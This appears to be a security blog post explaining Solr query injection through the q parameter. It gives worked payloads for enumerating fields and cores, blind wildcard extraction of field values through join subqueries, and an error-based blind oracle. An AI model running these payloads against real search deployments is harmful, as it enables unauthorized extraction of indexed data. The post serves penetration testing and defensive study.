 ```yaml
---
layout: default
title: Solr Query Injection
categories: security
---
```


[Apache Solr](https://solr.apache.org/) is a NoSQL datastore that is typically used as an enterprise search platform.

Most resources on Solr injection seem to be about CVEs or [injecting additional parameters](https://github.com/veracode-research/solr-injection) into calls to the Solr REST API. This post covers some techniques you can use when you only have control over the q parameter and are interested in extracting data from the index itself.

The techniques may not be applicable in newer versions of Solr as the [default settings were changed](https://lucene.apache.org/solr/guide/8_6/major-changes-in-solr-8.html#solr-7-2) in Solr 7.2 to limit when switching query parsers is allowed. These techniques may still work if the target has `luceneMatchVersion` set to 7.1.0 or lower in their solrconfig.xml file.

For the purposes of this post we'll assume the query you're injecting into looks like this:

```
somefield:INJECTIONPOINT
```

## Basics

Solr supports running multiple indexes, called cores, with separate configurations on the same server. This section covers techniques where the information you want is in the same core as the query injection location.

### Enumerate available fields in the current core

This is a brute force guessing game.

```
* AND FIELDNAMEGUESS:*
```

If you still get results, the field exists. If you get an error or no results, the field doesn't exist.

### Extract query parameters

Determining the value of the [common query parameters](https://lucene.apache.org/solr/guide/8_6/common-query-parameters.html) will help you understand the context your query is in.

```
* AND {!switch case='notarealfieldthiswillerrorout:5' case.1='*:*' v=$rows}
```

if `$rows` exists and equals 1, this will work, otherwise you will get an error.

### Field values extraction

Solr supports [limited join functionality](https://solr.apache.org/guide/8_11/other-parsers.html#join-query-parser) that is similar to an SQL inner-query.

The following query
```
* AND {!join from=knownfield to:knownfield v='other_condition'}
```

is [roughly equivalent to this SQL](https://lucene.apache.org/solr/guide/8_6/other-parsers.html#join-query-parser)

```sql
SELECT *
FROM current_core
WHERE knownfield IN (SELECT knownfield
                     FROM current_core
                     WHERE other_condition)
```

If your query returns any results you know that there was a row in the table where `other_condition` was true.

Similar to blind SQL injection, you can use this by making other_condition increasily specific until it matches only one record and then brute force values of additional fields on the record using wildcards.

```
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:m*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:ma*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:mag*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magi*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magic'}
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_current_core to=field v="{!join from=any_field_on_current_core to=any_field_on_current_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_current_core
                FROM current_core
                WHERE any_field_on_current_core IN (SELECT any_field_on_current_core
                                                  FROM current_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is any row in `current_core` where `other_condition` is true.

## Working across cores

Solr joins can be used to extract data from cores other than one currently being queried.

### Enumerate other cores in the index

This is a brute force guessing game. You have to guess both the name of the other core and the name of a field in it in one go.

If you found any generic-sounding field names in the previous section like `id`, I recommend you assume other cores have that field and just guess core names.

```
* AND {!join from=KNOWNFIELD fromIndex=CORENAMEGUESS to:KNOWNFIELD v='*:*'}
```

### Cross-core field value extraction

After enumerating some other cores and fields, you can modify the join to extract values from joined documents.

The following query:

```
* AND {!join from=field_on_other_core fromIndex=other_core to:KNOWNFIELD v='other_condition'}
```

is roughly equivalent to

```sql
SELECT * FROM current_core
WHERE KNOWNFIELD IN (SELECT field_on_other_core
                     FROM other_core
                     WHERE other_condition)
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_other_core fromIndex=other_core to=field v="{!join from=any_field_on_other_core fromIndex=other_core to=any_field_on_other_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_other_core
                FROM other_core
                WHERE any_field_on_other_core IN (SELECT any_field_on_other_core
                                                  FROM other_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is a row in `other_core` where `other_condition` is true.

## Fully blind injection

Sometimes a site is querying Solr behind the scenes with user input but the results are never shown to the user. If you find an injection point in such a query, it may still be possible to extract information by triggering an Internal Sever Error if the query result set is empty.

```
* AND {!frange l=1 v='def(query({!edismax v="SOMECONDITION*"}),"a")'}
```

The [frange](https://solr.apache.org/guide/8_11/other-parsers.html#function-range-query-parser) query parser expects a number as input. With this query, if `SOMECONDITION` matches something, [def](https://solr.apache.org/guide/8_11/function-queries.html#def-function) passes the document score to frange, otherwise it passes the string "a" which causes an error.